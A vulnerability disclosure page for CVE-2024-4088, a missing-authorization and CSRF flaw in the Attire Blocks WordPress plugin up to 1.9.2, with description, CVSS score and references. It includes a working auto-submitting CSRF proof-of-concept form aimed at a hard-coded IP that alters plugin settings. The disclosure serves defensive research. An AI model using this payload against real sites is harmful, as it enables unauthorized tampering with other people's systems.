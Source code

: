 ```yaml
---
layout: page
title: CVE-2024-4088
subtitle: Gutenberg Blocks and Page Layouts – Attire Blocks <= 1.9.2 - Missing Authorization
---
```

## Description
The Gutenberg Blocks and Page Layouts – Attire Blocks plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the disable_fe_assets function in all versions up to, and including, 1.9.2. This makes it possible for authenticated attackers, with subscriber access or above, to change the plugin's settings. Additionally, no nonce check is performed resulting in a CSRF vulnerability.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.9.2

## PoC :
```
<html>
  <!-- Made by eneriii<3 - https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="atbs&#95;disable&#95;fe&#95;assets" />
      <input type="hidden" name="data&#91;&#93;" value="bootstrap&#95;css" />
      <input type="hidden" name="data&#91;&#93;" value="bootstrap&#95;js" />
      <input type="hidden" name="data&#91;&#93;" value="font&#95;awesome" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/attire-blocks/gutenberg-blocks-and-page-layouts-attire-blocks-192-missing-authorization
- https://plugins.trac.wordpress.org/changeset/3085600/attire-blocks/trunk/admin/AttireBlocksSettings.php?old=2996841&old_path=attire-blocks%2Ftrunk%2Fadmin%2FAttireBlocksSettings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4088





